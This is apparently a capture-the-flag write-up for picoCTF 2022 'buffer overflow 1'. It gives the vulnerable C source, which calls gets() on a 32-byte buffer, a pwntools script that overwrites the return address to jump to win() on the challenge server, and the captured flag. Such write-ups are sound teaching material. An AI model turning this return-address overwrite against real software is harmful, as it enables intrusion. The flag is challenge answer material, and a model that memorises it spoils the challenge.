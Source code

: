 # picoCTF 2022 buffer overflow 1 (Binary Exploitation 200 points)
The challenge is the following,

![Figure 1](img/challenge.png) 

We are also given the executable file [vuln](./files/vuln) and its source code [vuln.c](./files/vuln.c),

```
1.  #include <stdio.h>
2.  #include <stdlib.h>
3.  #include <string.h>
4.  #include <unistd.h>
5.  #include <sys/types.h>
6.  #include "asm.h"
7. 
8.  #define BUFSIZE 32
9.  #define FLAGSIZE 64
10. 
11. void win() {
12.   char buf[FLAGSIZE];
13.   FILE *f = fopen("flag.txt","r");
14.   if (f == NULL) {
15.     printf("%s %s", "Please create 'flag.txt' in this directory with your",
16.                     "own debugging flag.\n");
17.     exit(0);
18.   }
19. 
20.   fgets(buf,FLAGSIZE,f);
21.   printf(buf);
22. }
23. 
24. void vuln(){
25.   char buf[BUFSIZE];
26.   gets(buf);
27. 
28.   printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
29. }
30. 
31. int main(int argc, char **argv){
32. 
33.   setvbuf(stdout, NULL, _IONBF, 0);
34.   
35.   gid_t gid = getegid();
36.   setresgid(gid, gid, gid);
37. 
38.   puts("Please enter your string: ");
39.   vuln();
40.   return 0;
41. }
```

Here, I saw that the function `win()` is the function that contains the flag reader, so this is the function I want to jump to. I used `pwndbg` and used `info functions`.

![Figure 1](img/gdb.png) 

I saw that `win()` was in `0x080491f6`, so this is the return address that I want to overwrite. I know that 44 bytes can be used to overflow the buffer and rewrite the return address, so I prepared the padding of 44 `A`,

`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`

I assumed that I needed to swap the endianness for the return address, so I used,

`\xf6\x91\x04\x08`

Then I put everything together into the following [exploit.py](./files/exploit.py),

```
from pwn import *

#elf = context.binary = ELF("./vuln")
context.arch = 'amd64'
gs = '''
continue
'''

def start(server=True):
        if(server):
                return remote('saturn.picoctf.net', 53520)
        else:

                return process(['./vuln'])

io = start()

#io.recvuntil(">>")
a = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
a += "\xf6\x91\x04\x08"
io.sendline(a)

io.interactive()

```

I executed this script, which connected to the remote server and inputted the padding and return address,


![Figure 1](img/flag.png) 


Therefore, the flag is,

`picoCTF{addr3ss3s_ar3_3asy_b9797671}`
